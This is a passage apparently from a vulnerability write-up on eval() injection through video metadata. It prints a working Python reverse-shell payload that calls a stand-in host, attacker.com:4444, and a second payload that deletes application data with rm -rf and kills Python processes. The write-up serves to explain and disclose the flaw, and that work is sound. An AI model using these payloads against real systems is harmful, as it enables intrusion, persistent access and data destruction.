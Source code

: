 ## Exploit Scenario 2: Backdoor Installation

### Attack Vector
Install persistent backdoor for ongoing access.

### Malicious Payload
```python
# Embedded in video metadata:
payload = """__import__('subprocess').run([
    'python3', '-c', 
    '''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'''
], shell=True)"""
```

### How It Works
1. Malicious video processed by application
2. eval() executes reverse shell payload
3. Backdoor connects to attacker's server
4. Attacker gains persistent shell access

### Impact
- Complete system compromise
- Persistent unauthorized access
- Ability to install additional malware

## Exploit Scenario 3: Service Destruction

### Attack Vector
Destroy critical application data and services.

### Malicious Payload
```python
# Embedded in video metadata:
payload = """__import__('subprocess').run([
    'rm', '-rf', '/app/data/*'
], shell=False) or __import__('os').system('pkill -f python')"""
```

### How It Works
1. Malicious video uploaded to application
2. Processing triggers eval() execution
3. Critical data files deleted
4. Application processes terminated

### Impact
- Complete data loss
- Service disruption
- Business continuity impact

